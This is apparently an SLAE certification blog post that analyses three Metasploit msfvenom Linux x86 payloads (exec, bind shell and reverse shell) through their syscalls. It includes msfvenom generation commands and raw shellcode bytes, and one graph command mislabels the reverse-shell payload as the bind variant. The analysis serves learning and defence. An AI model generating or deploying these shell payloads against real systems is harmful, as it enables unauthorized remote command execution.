


# SLAE Exam Assignment 5 - Analyzing MSFVenom payloads

**Reading Time:** _6 minutes_

## Prologue
The fifth assignment for our SLAE certification exam is analyzing three shellcodes from the Metasploit MSFVenom tool and writing a suitable report for the same.

Almost all of us have used the Metasploit framework's `msfvenom` tool at some point and generated some payloads and used it somewhere but have you ever thought how does it function? How is it made?

If your answer is no then this is your chance to peek a glimpse at everything that happens under the hood of this powerful tool when you generate a payload.

For the purposes of this blog post I have chosen three payloads namely:
1. **linux/x86/exec**
1. **linux/x86/shell_bind_tcp**
1. **linux/x86/shell_reverse_tcp**

So without any further ado, here it goes.

## Analyzing linux/x86/exec shellcode
As might be evident from the name, this is an execve shellcode and you can specify what to execute using the `CMD=` flag. Let's go ahead with `/bin/sh`.

We can generate the shellcode C-string using this command:
```
msfvenom -p linux/x86/exec CMD=/bin/sh --arch x86 -f c
```

The generated shellcode is as follows:
```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 43 bytes
Final size of c file: 205 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";
```

But this is basically an array of opcodes and doesn't make much sense does it eh?

Honestly, it'd be good if we could look at the NASM source or better yet a visual representation of the flow right?

Fortunately enough for us there's a powerful tool known as `libemu` which allows us to do the same and more.

Assuming you have already installed the tool, let's look at how to generate a graph:
```
msfvenom -p linux/x86/exec CMD=/bin/sh --arch x86 -f raw | sctest -vvv -Ss 100000 -G linux-x86-exec.dot

dot linux-x86-exec.dot -Tpng -o linux-x86-exec.png
```

Let me paste the image here to aid in the analysis:



Aaah! Looks pretty familiar now doesn't it? Some of you might have even analyzed it already as it's quite simple now but let's do a short analysis anyway.

First, we push 0x0b or 11 in decimal which is the syscall number for execve() into the stack and pop it into `EAX` which should contain the syscall number remember? Then we clear `EDX` register using `cwd` and push it into the stack. After that we proceed with setting up the arguments for execve() which in this case is "/bin/sh"(0x68732f = **hs/** & 0x6e69622f = **nib/**). Note that `/bin/sh` is reversed to satisfy the little-endianness of the x86 architecture and also note the usage of **-c** flag(0x632d) which actually reads the command from the _command_string_ rather than STDIN. Finally, we execute the execve syscall using the good old software interrupt _80h_.

## Analyzing linux/x86/shell_bind_tcp shellcode
This is a standard bind TCP shell payload(stageless) from the Metasploit framework.

We can generate the payload using the following command:
```
msfvenom -p linux/x86/shell_bind_tcp LPORT=8080 -f c
```
And by piping the raw payload to the `sctest` tool, we can also generate a graph as follows:
```
msfvenom -p linux/x86/shell_bind_tcp LPORT=8080 -f raw | sctest -vvv -Ss 100000 -G linux-x86-bindshell.dot

dot linux-x86-bindshell.dot -Tpng -o linux-x86-bindshell.png
```

Let me include the image here to aid in the analysis:


Whoa! This looks bigger than I expected:( Don't get disheartened, let's start with identifying the syscalls first, rest will be taken care of automatically. 

The syscalls are:
1. socket()
2. bind()
3. listen()
4. accept()
5. dup2()
6. execve()

Brilliant! Correlating with [Blog Post 1](https://slaeryan.github.io/posts/slae-assignment1-blogpost.html) where we created our own Bind TCP shellcode, we can see that the syscalls match in the exact order. Let's move in now for a deeper analysis.

### socket syscall
We can see that `EBX` is cleared using XORing with itself. Then we clear `EAX` using `mul` instruction(a clever trick to save bytes!) and set up the stack for the socket syscall arguments:

1. domain - AF_INET = 0x02 for IPv4 addressing schema
2. type - SOCK_STREAM = 0x01 for a full-duplex byte stream socket communication
3. protocol - default 0x00 for single protocol support

After that, we load the syscall number for socket = 0x167 in the lower part of EAX and execute the syscall.
### bind syscall
This is the step where we push into the stack for the sockaddr_in struct arguments with:

1. The server IP address - 0x00(0.0.0.0) to enable listening on all interfaces
2. The addressing schema - 0x02 for IPv4 addressing schema
3. The listening port - 0x901f(LPORT=8080, little-endian)

Now we set the stack for the bind syscall arguments with the socket file descriptor created in the first syscall, socklen_t addrlen = 16 and the previously created sockaddr_in struct in a reverse-order(little-endianness!) and load the appropriate syscall number in `EAX` before finally executing the syscall.
### listen syscall
This step should be easy to comprehend. Two things we should note here is that how they load into `EAX` the sockfd by directly referencing a location on the stack where it's located and loading of 0x04 or SYS_LISTEN into the lower part of `EBX` before loading the appropriate syscall number in `EAX` and executing the syscall
### accept syscall
In this step, we just increment `EBX` by 1 making it 0x05 which is equal to SYS_ACCEPT. Then, as usual, we load the syscall value in `EAX` and execute the syscall.
### dup2 syscall
We are going to duplicate into our accepted connection socket which we got back from the previous step the STDIN/0, STDOUT/1, and STDERR/2 file descriptors(fd) to make the connection interactive in this step. In the first instruction, `EBX` now has the value of `EAX` which contains the connection socket. `ECX` will be used as the counter register here. After that, the syscall value for dup2 is pushed into the stack and the syscall is executed. For the next iteration, the `ECX` is decremented and the loop continues until the Sign Flag(SF) is set.
### execve syscall
The last step is actually all too familiar now that is executing the "/bin/sh" to enable the attackers to execute any command on the machine remotely. There is not much to discuss here as it's pretty standard.

## Analyzing linux/x86/shell_reverse_tcp shellcode
This is again a standard Reverse TCP payload(not to be confused with Meterpreter!) from the Metasploit framework.

Generation of the shellcode is as easy as:
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=5555 -f c
```

And the graph as follows:
```
msfvenom -p linux/x86/shell_bind_tcp LHOST=127.0.0.1 LPORT=5555 -f raw | sctest -vvv -Ss 100000 -G linux-x86-reverseshell.dot

dot linux-x86-reverseshell.dot -Tpng -o linux-x86-reverseshell.png
```

Here is the diagram which we will analyze:



When that's done let's move in for the detailed analysis but not before identifying the syscalls first which are:

1. socket()
2. dup2()
3. connect()
4. execve()

We can verify this with the help of [Blog Post 2](https://slaeryan.github.io/posts/slae-assignment2-blogpost.html) where we created our own Reverse TCP shellcode.

### socket syscall
We begin by clearing out `EBX` register by XORing it with itself and then the same 'ole trick of clearing `EAX` using `mul`. Then we begin setting up the stack for the socket syscall arguments by first pushing 0x00 = _IPPROTO_IP_, 0x01 = _SOCK_STREAM_ and 0x02 = _AF_INET_. Then ECX is made to point to the TOS which contains our arguments. After that, it's as simple as loading the appropriate syscall number in `AL` and executing the syscall.
### dup2 syscall
This step is same as the one we evaluated in the Bind TCP payload(duplicating into our accepted connection socket which we got back from the previous step the STDIN/0, STDOUT/1, and STDERR/2 file descriptors(fd) to make the connection interactive for the attackers.
### connect syscall
This step is almost identical to the bind syscall step in the Bind TCP payload we analyzed before. We begin by creating the sockdaddr_in struct. Note that here we push the IP of the server too which in this case is 127.0.0.1 or 0x100007f and the remote port which is 5555 or 0xb315 in our case(Both the C2 IP and port are reversed for satisfying the little-endianness of x86 architecture). The 0x0002 appended to the port is actually for specifying the addressing schema which is IPv4 or _AF_INET_. After the struct is made, `ECX` is made to point to the location of the struct on the stack. Then we load the syscall for connect() in `AL`, push EAX into the stack, push ECX into the stack, push EBX into the stack which contains the socket file descriptor, load `BL` with 0x03 which is equal to _SYS_CONNECT_, adjust ECX and execute the syscall.
### execve syscall
Finally, we execute the execve() syscall with **/bin/sh** to get an interactive shell on the target machine. This part is pretty self-explanatory and we have gone through it many times before.

With this, we have officially completed the analysis of three shellcodes from the Metasploit framework.

## Code links:
All the materials referred to or used in this project is listed as follows:

1. [linux-x86-exec.dot](https://github.com/slaeryan/SLAE-Code-Repository/blob/master/Assignment%205/linux-x86-exec.dot)
1. [linux-x86-exec.png](https://github.com/slaeryan/SLAE-Code-Repository/blob/master/Assignment%205/linux-x86-exec.png)
1. [linux-x86-bindshell.dot](https://github.com/slaeryan/SLAE-Code-Repository/blob/master/Assignment%205/linux-x86-bindshell.dot)
1. [linux-x86-bindshell.png](https://github.com/slaeryan/SLAE-Code-Repository/blob/master/Assignment%205/linux-x86-bindshell.png)
1. [linux-x86-reverseshell.dot](https://github.com/slaeryan/SLAE-Code-Repository/blob/master/Assignment%205/linux-x86-reverseshell.dot)
1. [linux-x86-reverseshell.png](https://github.com/slaeryan/SLAE-Code-Repository/blob/master/Assignment%205/linux-x86-reverseshell.png)

Feel free to use any of the above resources as and when you see fit. 

Cheers!

## Note
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

<br />

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](https://www.pentesteracademy.com/course?id=3)

<br />

Student ID: SLAE-1525
